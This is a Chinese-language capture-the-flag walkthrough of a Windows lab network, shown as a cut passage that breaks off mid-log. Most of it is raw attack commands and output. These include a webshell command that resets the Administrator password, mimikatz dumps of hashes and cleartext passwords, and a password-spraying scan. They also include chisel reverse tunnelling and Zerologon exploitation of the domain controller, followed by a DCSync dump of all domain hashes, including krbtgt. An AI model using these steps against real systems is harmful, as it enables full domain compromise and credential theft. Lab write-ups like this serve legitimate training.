csrss.exe                      336 ???±                                        
csrss.exe                      420 ???±                                        
wininit.exe                    460 ???±                                        
winlogon.exe                   472 ???±                                        
services.exe                   536 ???±                                        
lsass.exe                      544 KeyIso, SamSs, VaultSvc                     
svchost.exe                    616 BrokerInfrastructure, DcomLaunch, LSM,      
                                   PlugPlay, Power, SystemEventsBroker         
svchost.exe                    656 RpcEptMapper, RpcSs                         
dwm.exe                        760 ???±                                        
svchost.exe                    800 TermService                                 
svchost.exe                    808 CertPropSvc, DsmSvc, gpsvc, IKEEXT,         
                                   iphlpsvc, ProfSvc, Schedule, SENS,          
                                   SessionEnv, ShellHWDetection, Themes,       
                                   UserManager, UsoSvc, Winmgmt, wlidsvc,      
                                   WpnService                                  
svchost.exe                    852 NcbService, PcaSvc, StorSvc, TrkWks,        
                                   UALSVC, UmRdpService, WdiSystemHost, wudfsv 
svchost.exe                    880 Dhcp, EventLog, lmhosts, TimeBrokerSvc      
svchost.exe                    992 EventSystem, FontCache, LicenseManager,     
                                   netprofm, nsi, W32Time, WinHttpAutoProxySvc 
svchost.exe                    340 BFE, CoreMessagingRegistrar, DPS, MpsSvc    
svchost.exe                    328 CryptSvc, Dnscache, LanmanWorkstation,      
                                   NlaSvc, WinRM                               
svchost.exe                    416 Wcmsvc                                      
svchost.exe                   1412 PolicyAgent                                 
spoolsv.exe                   1500 Spooler                                     
svchost.exe                   1552 DiagTrack                                   
svchost.exe                   1624 StateRepository, tiledatamodelsvc           
svchost.exe                   1652 LanmanServer                                
MsMpEng.exe                   1680 WinDefend                                   
TeamViewer_Service.exe        1780 TeamViewer                                  
cmd.exe                       2260 ???±                                        
conhost.exe                   2372 ???±                                        
ChsIME.exe                    2412 ???±                                        
RuntimeBroker.exe             2972 ???±                                        
sihost.exe                    3032 ???±                                        
svchost.exe                   3060 CDPUserSvc_29d47, OneSyncSvc_29d47          
taskhostw.exe                 1432 ???±                                        
MicrosoftEdgeUpdate.exe       2064 ???±                                        
ChsIME.exe                    2892 ???±                                        
explorer.exe                  2392 ???±                                        
ShellExperienceHost.exe       3272 ???±                                        
SearchUI.exe                  3352 ???±                                        
ServerManager.exe             3712 ???±                                        
java.exe                      3136 ???±                                        
MusNotification.exe           1672 ???±                                        
MpCmdRun.exe                  3736 ???±                                        
MusNotificationUx.exe         2316 ???±                                        
java.exe                      3740 ???±                                        
conhost.exe                   3804 ???±                                        
msdtc.exe                     3580 MSDTC                                       
svchost.exe                   4100 SSDPSRV                                     
taskhostw.exe                 4444 ???±                                        
svchost.exe                   4104 ClipSVC                                     
cmd.exe                       4288 ???±                                        
conhost.exe                   4800 ???±                                        
tasklist.exe                  1716 ???±                                        
WmiPrvSE.exe                   668 ???±                                        

```

还是windows defender

## net user

```
net user  Administrator admin@123
```

```
view-source:http://172.10.68.30:8088/1.jsp?cmd=net%20user%20%20Administrator%20admin@123
```

## rdp-3389



### pass.txt

```
2025.2.14
tm@cslab
24d@cs1
```

桌面的pass.txt的内容如上

## ipconfig

```
:\Users\Administrator>ipconfig

Windows IP 配置

以太网适配器 以太网 1:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::a482:f1e6:e79c:f0ed%16
   IPv4 地址 . . . . . . . . . . . . : 172.10.68.30
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 172.10.68.1

以太网适配器 以太网实例 0:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::a43c:907d:1ebe:5ca4%11
   IPv4 地址 . . . . . . . . . . . . : 10.0.0.59
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 10.0.0.1

隧道适配器 Reusable ISATAP Interface {9BBE10B9-E4A8-47FF-8415-E9AC45D86EB2}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

隧道适配器 isatap.{750AFD13-F872-4DF9-A0DF-8C0DF162FF51}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :
```

新的网段

10.0.0.59

## mimikatz

```
mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 156835 (00000000:000264a3)
Session           : Interactive from 1
User Name         : Administrator
Domain            : WIN-06RAOH2AQ6U
Logon Server      : WIN-06RAOH2AQ6U
Logon Time        : 2025/5/27 15:42:37
SID               : S-1-5-21-3640828125-2614637477-4286260256-500
        msv :
         [00000005] Primary
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * NTLM     : 75078fcefdd65fc4e039117e0d1cc984
         * SHA1     : cdb2aae9784f32d5eae7f4f408f7f366a22e2dc3
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : WIN-06RAOH2AQ6U\Administrator
         * Domain   : WIN-06RAOH2AQ6U\Administrator
         * Password : U8@cslab

Authentication Id : 0 ; 107630 (00000000:0001a46e)
Session           : Batch from 0
User Name         : Administrator
Domain            : WIN-06RAOH2AQ6U
Logon Server      : WIN-06RAOH2AQ6U
Logon Time        : 2025/5/27 15:42:25
SID               : S-1-5-21-3640828125-2614637477-4286260256-500
        msv :
         [00000005] Primary
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * NTLM     : 75078fcefdd65fc4e039117e0d1cc984
         * SHA1     : cdb2aae9784f32d5eae7f4f408f7f366a22e2dc3
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WIN-06RAOH2AQ6U
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : WIN-06RAOH2AQ6U\Administrator
         * Domain   : WIN-06RAOH2AQ6U\Administrator
         * Password : U8@cslab

Authentication Id : 0 ; 52650 (00000000:0000cdaa)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:13
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 52626 (00000000:0000cd92)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:13
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-06RAOH2AQ6U$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:11
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-06raoh2aq6u$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 24763 (00000000:000060bb)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:09
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 2331759 (00000000:0023946f)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 17:56:16
SID               : S-1-5-90-0-3
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 2331203 (00000000:00239243)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 17:56:16
SID               : S-1-5-90-0-3
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:13
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-06RAOH2AQ6U$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/5/27 15:42:09
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN-06RAOH2AQ6U$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-06raoh2aq6u$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
```

## flag2

```
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>type c:\flag.txt
   .::::
 .:    .::
.::           .::       .::    .: .:::
.::         .:   .::  .::  .::  .::
.::   .::::.::::: .::.::   .::  .::
 .::    .: .:        .::   .::  .::
  .:::::     .::::     .:: .:::.:::
go-flag{fa3b8568-552b-474a-9a6b-25b09eb7f829}
```

## fscan-10.0.0.0/24

```
PS C:\Users\Administrator\Desktop> .\fscan2.exe -h 10.0.0.0/24 -hn 10.0.0.59 -p 1-65535  -pwda tm@cslab,24d@cs1 -t 2000

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 已添加额外密码: tm@cslab,24d@cs1
[*] 扫描类型: all, 目标端口: 1-65535
[*] 开始信息扫描...
[*] CIDR范围: 10.0.0.0-10.0.0.255
[*] 已生成IP范围: 10.0.0.0 - 10.0.0.255
[*] 已解析CIDR 10.0.0.0/24 -> IP范围 10.0.0.0-10.0.0.255
[*] 已排除指定主机: 1 个
[*] 最终有效主机数量: 255
[+] 目标 10.0.0.58       存活 (ICMP)
[+] 目标 10.0.0.61       存活 (ICMP)
[+] 目标 10.0.0.60       存活 (ICMP)
[+] ICMP存活主机数量: 3
[*] 共解析 65535 个有效端口
[+] 端口开放 10.0.0.60:53
[+] 端口开放 10.0.0.60:389
[+] 端口开放 10.0.0.60:139
[+] 端口开放 10.0.0.61:139
[+] 端口开放 10.0.0.58:139
[+] 端口开放 10.0.0.60:135
[+] 端口开放 10.0.0.61:135
[+] 端口开放 10.0.0.58:135
[+] 端口开放 10.0.0.60:88
[+] 端口开放 10.0.0.60:636
[+] 端口开放 10.0.0.60:593
[+] 端口开放 10.0.0.60:464
[+] 端口开放 10.0.0.60:445
[+] 端口开放 10.0.0.61:445
[+] 端口开放 10.0.0.58:445
[+] 端口开放 10.0.0.60:3269
[+] 端口开放 10.0.0.60:3268
[+] 端口开放 10.0.0.61:3389
[+] 端口开放 10.0.0.60:5985
[+] 端口开放 10.0.0.61:5985
[+] 端口开放 10.0.0.58:5985
[+] 端口开放 10.0.0.58:5938
[+] 端口开放 10.0.0.60:9389
[+] 端口开放 10.0.0.61:47001
[+] 端口开放 10.0.0.58:47001
[+] 端口开放 10.0.0.60:47001
[+] 端口开放 10.0.0.60:49706
[+] 端口开放 10.0.0.60:49687
[+] 端口开放 10.0.0.60:49682
[+] 端口开放 10.0.0.60:49675
[+] 端口开放 10.0.0.60:49673
[+] 端口开放 10.0.0.61:49671
[+] 端口开放 10.0.0.60:49670
[+] 端口开放 10.0.0.61:49670
[+] 端口开放 10.0.0.58:49670
[+] 端口开放 10.0.0.60:49669
[+] 端口开放 10.0.0.61:49669
[+] 端口开放 10.0.0.58:49669
[+] 端口开放 10.0.0.60:49668
[+] 端口开放 10.0.0.61:49668
[+] 端口开放 10.0.0.58:49668
[+] 端口开放 10.0.0.61:49667
[+] 端口开放 10.0.0.58:49667
[+] 端口开放 10.0.0.60:49666
[+] 端口开放 10.0.0.61:49666
[+] 端口开放 10.0.0.58:49666
[+] 端口开放 10.0.0.60:49665
[+] 端口开放 10.0.0.61:49665
[+] 端口开放 10.0.0.58:49665
[+] 端口开放 10.0.0.60:49664
[+] 端口开放 10.0.0.61:49664
[+] 端口开放 10.0.0.58:49664
[+] 存活端口数量: 52
[*] 开始漏洞扫描...
[*] NetInfo
[*] 10.0.0.58
   [->] WIN-KNETOKJEB7S
   [->] 10.0.0.58
[*] NetInfo
[*] 10.0.0.60
   [->] DC
   [->] 10.0.0.60
[*] NetInfo
[*] 10.0.0.61
   [->] cyberweb
   [->] 10.0.0.61
[*] OsInfo 10.0.0.60    (Windows Server 2016 Standard 14393)
[!] 扫描错误 10.0.0.58:445 - 无法确定目标是否存在漏洞
[!] 扫描错误 10.0.0.60:636 - Get "http://10.0.0.60:636": read tcp 10.0.0.59:52387->10.0.0.60:636: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.60:139 - netbios error
[!] 扫描错误 10.0.0.60:3269 - Get "http://10.0.0.60:3269": read tcp 10.0.0.59:52385->10.0.0.60:3269: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.60:88 - Get "http://10.0.0.60:88": read tcp 10.0.0.59:52391->10.0.0.60:88: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.60:464 - Get "http://10.0.0.60:464": read tcp 10.0.0.59:52392->10.0.0.60:464: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.58:5938 - Get "https://10.0.0.58:5938": EOF
[*] 网站标题 http://10.0.0.58:5985     状态码:404 长度:315    标题:Not Found
[*] 网站标题 http://10.0.0.58:47001    状态码:404 长度:315    标题:Not Found
[*] NetBios 10.0.0.61       cyberweb.cyberstrikelab.com         Windows Server 2016 Standard 14393
[*] NetBios 10.0.0.58       WORKGROUP\WIN-KNETOKJEB7S           Windows Server 2016 Datacenter 14393
[*] OsInfo 10.0.0.61    (Windows Server 2016 Standard 14393)
[!] 扫描错误 10.0.0.60:3268 - Get "http://10.0.0.60:3268": read tcp 10.0.0.59:52398->10.0.0.60:3268: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.60:389 - Get "http://10.0.0.60:389": read tcp 10.0.0.59:52399->10.0.0.60:389: wsarecv: An existing connection was forcibly closed by the remote host.
[*] 网站标题 http://10.0.0.61:5985     状态码:404 长度:315    标题:Not Found
[*] 网站标题 http://10.0.0.61:47001    状态码:404 长度:315    标题:Not Found
[*] 网站标题 http://10.0.0.60:5985     状态码:404 长度:315    标题:Not Found
[*] 网站标题 http://10.0.0.60:47001    状态码:404 长度:315    标题:Not Found
[!] 扫描错误 10.0.0.60:9389 - Get "http://10.0.0.60:9389": read tcp 10.0.0.59:52412->10.0.0.60:9389: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 10.0.0.60:49669 - Get "http://10.0.0.60:49669": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:593 - Get "http://10.0.0.60:593": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49667 - Get "http://10.0.0.58:49667": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49666 - Get "http://10.0.0.61:49666": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49668 - Get "http://10.0.0.60:49668": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49664 - Get "http://10.0.0.60:49664": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49670 - Get "http://10.0.0.61:49670": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49673 - Get "http://10.0.0.60:49673": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49670 - Get "http://10.0.0.58:49670": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49675 - Get "http://10.0.0.60:49675": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49671 - Get "http://10.0.0.61:49671": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49670 - Get "http://10.0.0.60:49670": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49668 - Get "http://10.0.0.58:49668": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49669 - Get "http://10.0.0.61:49669": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49668 - Get "http://10.0.0.61:49668": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49669 - Get "http://10.0.0.58:49669": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49667 - Get "http://10.0.0.61:49667": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49666 - Get "http://10.0.0.60:49666": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:53 - Get "http://10.0.0.60:53": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49665 - Get "http://10.0.0.58:49665": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49687 - Get "http://10.0.0.60:49687": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49682 - Get "http://10.0.0.60:49682": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49664 - Get "http://10.0.0.58:49664": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.58:49666 - Get "http://10.0.0.58:49666": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49665 - Get "http://10.0.0.60:49665": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49665 - Get "http://10.0.0.61:49665": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.61:49664 - Get "http://10.0.0.61:49664": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 10.0.0.60:49706 - Get "http://10.0.0.60:49706": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[*] 已完成 51/52 [-] (60/216) RDP 10.0.0.61:3389 administrator sysadmin remote error: tls: access denied
[*] 已完成 51/52 [-] (120/216) RDP 10.0.0.61:3389 admin abc123456 remote error: tls: access denied
[*] 已完成 51/52 [-] (179/216) RDP 10.0.0.61:3389 guest 123qwe!@# remote error: tls: access denied
[+] 扫描已完成: 52/52
[*] 扫描结束,耗时: 6m13.202155s
PS C:\Users\Administrator\Desktop>
```

# 10.0.0.0/24

## 二级代理

在172.10.68.20的机器执行

```
PS C:\phpStudy\WWW> .\chisel.exe server --reverse -port 12345
.\chisel.exe server --reverse -port 12345
2025/05/27 18:06:55 server: Reverse tunnelling enabled
2025/05/27 18:06:55 server: Fingerprint WaRnRo2vB8at1aZeN9kb211RACPOqpXfVLdOQc9FD7w=
2025/05/27 18:06:55 server: Listening on http://0.0.0.0:12345
2025/05/27 18:07:21 server: session#1: tun: proxy#R:1080=>socks: Listening
```

在172.10.68.30的机器上执行

```
C:\Users\Administrator\Desktop>.\chisel.exe client 172.10.68.20:12345 R:0.0.0.0:1080:socks
2025/05/27 18:07:21 client: Connecting to ws://172.10.68.20:12345
2025/05/27 18:07:21 client: Connected (Latency 575.5µs)
```

## 10.0.0.58-WORKGROUP\WIN-KNETOKJEB7S

### teamview

通过teamview 连接 10.0.0.58

第一个密码tm@cslab 是 teamview 的密码  
24d@cs1是administrator的密码

### flag3

```
C:\Users\Administrator>dir c:\
 驱动器 C 中的卷没有标签。
 卷的序列号是 CC61-0B6A

 c:\ 的目录

2025/02/14  12:42               325 flag.txt
2025/02/14  13:44    <DIR>          PerfLogs
2025/02/14  11:46    <DIR>          Program Files
2025/02/14  11:42    <DIR>          Program Files (x86)
2025/02/14  11:19    <DIR>          Users
2025/02/14  11:20    <DIR>          Windows
               1 个文件            325 字节
               5 个目录  9,732,050,944 可用字节

C:\Users\Administrator>type c:\flag.txt
   .::::
 .:    .::
.::           .::       .::    .: .:::
.::         .:   .::  .::  .::  .::
.::   .::::.::::: .::.::   .::  .::
 .::    .: .:        .::   .::  .::
  .:::::     .::::     .:: .:::.:::
go-flag{e7c618fc-06b3-453e-aa37-da1f7c1fbe6a}
C:\Users\Administrator>
```

### mimikatz

```
PS C:\Users\Administrator\Desktop\mimikatz_trunk\x64> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit
"

  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 2304491 (00000000:002329eb)
Session           : Interactive from 1
User Name         : Administrator
Domain            : WIN-KNETOKJEB7S
Logon Server      : WIN-KNETOKJEB7S
Logon Time        : 2025/5/28 2:19:30
SID               : S-1-5-21-1368912703-105837734-401078500-500
        msv :
         [00000005] Primary
         * Username : Administrator
         * Domain   : WIN-KNETOKJEB7S
         * NTLM     : 82a1dd47eadb2dc0227bed06a07e7468
         * SHA1     : b6f1e606fc589dfb053fdd07373c300e699f9934
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WIN-KNETOKJEB7S
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WIN-KNETOKJEB7S
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : WIN-KNETOKJEB7S\Administrator
         * Domain   : WIN-KNETOKJEB7S\Administrator
         * Password : 24d@cs1

Authentication Id : 0 ; 51837 (00000000:0000ca7d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:37
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WIN-KNETOKJEB7S$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-KNETOKJEB7S$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:35
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : WIN-KNETOKJEB7S$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-knetokjeb7s$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:38
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 51856 (00000000:0000ca90)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:37
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : WIN-KNETOKJEB7S$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 23877 (00000000:00005d45)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:32
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-KNETOKJEB7S$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/5/27 15:44:32
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN-KNETOKJEB7S$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-knetokjeb7s$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
```

## 10.0.0.60-dc.cyberstrikelab.com

# 非预期解

看了一下zerologon 可以打

## zerologon

Referer:

test:

<https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py>

exploit:

<https://github.com/dirkjanm/CVE-2020-1472/tree/master>

restore\_password:

<https://github.com/risksense/zerologon>

```
❯ python3 zerologon_tester.py dc 10.0.0.60
Performing authentication attempts...
====================================================================================================================================================================================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

```
❯ python3 cve-2020-1472-exploit.py dc 10.0.0.60
Performing authentication attempts...
============================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

现在已经滞空了 dc$的hash

### dcsync

```
❯ secretsdump.py cyberstrikelab.com/dc\$@10.0.0.60  -just-dc-ntlm  -dc-ip 10.0.0.60  -no-pass
/opt/homebrew/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.11.0', 'secretsdump.py')
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7b50525da0ea9349b4c698bbe4868544:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:914015901d379ce39700dfe66fb6b35d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
cyberstrikelab.com\cslab:1106:aad3b435b51404eeaad3b435b51404ee:dac667db974d83b8892e44056066590e:::
cyberstrikelab.com\Tom:1108:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:10c95af77e59f747edfa31523691443d:::
[*] Cleaning up...
```

### dump-reg

```
❯ reg.py  cyberstrikelab.com/administrator@10.0.0.60 -hashes :7b50525da0ea9349b4c698bbe4868544 backup -o c:/windows
/opt/homebrew/bin/reg.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.11.0', 'reg.py')
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:191: SyntaxWarning: invalid escape sequence '\S'
  for hive in ["HKLM\SAM", "HKLM\SYSTEM", "HKLM\SECURITY"]:
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:191: SyntaxWarning: invalid escape sequence '\S'
  for hive in ["HKLM\SAM", "HKLM\SYSTEM", "HKLM\SECURITY"]:
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:191: SyntaxWarning: invalid escape sequence '\S'
  for hive in ["HKLM\SAM", "HKLM\SYSTEM", "HKLM\SECURITY"]:
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:205: SyntaxWarning: invalid escape sequence '\%'
  outputFileName = "%s\%s.save" % (self.__options.outputPath, subKey)
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:206: SyntaxWarning: invalid escape sequence '\S'
  logging.debug("Dumping %s, be patient it can take a while for large hives (e.g. HKLM\SYSTEM)" % keyName)
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:568: SyntaxWarning: invalid escape sequence '\s'
  save_parser.add_argument('-o', dest='outputPath', action='store', metavar='\\192.168.0.2\share', required=True, help='Output UNC path the target system must export the registry saves to')
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:571: SyntaxWarning: invalid escape sequence '\S'
  backup_parser = subparsers.add_parser('backup', help='(special command) Backs up HKLM\SAM, HKLM\SYSTEM and HKLM\SECURITY to a specified file.')
/opt/homebrew/lib/python3.12/site-packages/impacket-0.11.0-py3.12.egg/EGG-INFO/scripts/reg.py:572: SyntaxWarning: invalid escape sequence '\s'
